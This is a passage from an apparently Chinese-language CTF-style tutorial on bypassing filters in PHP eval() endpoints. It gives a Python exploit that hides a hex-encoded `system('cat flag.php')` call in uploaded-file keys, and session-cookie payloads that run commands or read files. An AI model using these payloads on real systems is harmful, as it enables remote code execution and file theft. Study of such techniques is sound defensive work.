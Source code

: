 **`get_defined_vars()`**返回由所有已定义变量所组成的数组，会返回**`$_GET,$_POST,$_COOKIE,$_FILES`**全局变量的值，返回数组顺序为**`get->post->cookie->files`**

**`current()`** 返回数组中的当前单元，初始指向插入到数组中的第一个单元，也就是会返回**`$_GET`**变量的数组值。

如果需要`$post`就把`current` 改成`next` 就好。

而如果网站对`$_GET,$_POST,$_COOKIE`都做的过滤，那我们只能从`$_FILES`入手了，exp 如下：

```plain
import requests
def str2hex(payload):
  txt = ''
  for i in payload:
      txt += hex(ord(i))[-2:]
  return txt
payload = str2hex("system('cat flag.php');")
files = {
    payload: b'extrader'
}
r = requests.post("http://192.168.0.107/index.php?exp=eval(hex2bin(array_rand(end(get_defined_vars()))));", files=files, allow_redirects=False)  # allow_redirects=False 禁用重定向处理
print(r.content.decode())
```

**array\_rand()：**从数组中随机取出一个或多个单元，如果只取出一个，**`array_rand()`**返回随机单元的键名。否则就返回包含随机键名的数组。

### payload\_4 session\_start()

```plain
show_source(session_id(session_start()));
var_dump(file_get_contents(session_id(session_start())))
highlight_file(session_id(session_start()));
readfile(session_id(session_start())); 或者 readgzfile();
修改 cookie : PHPSESSID= filename

eval(hex2bin(session_id(session_start())));
抓包传入 Cookie: PHPSESSID=("system('命令')"的十六进制)
```

[![](assets/1698897208-4bc2a01f4c4ee24a6ba127e4ca625a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210325204738-478af10e-8d68-1.png)
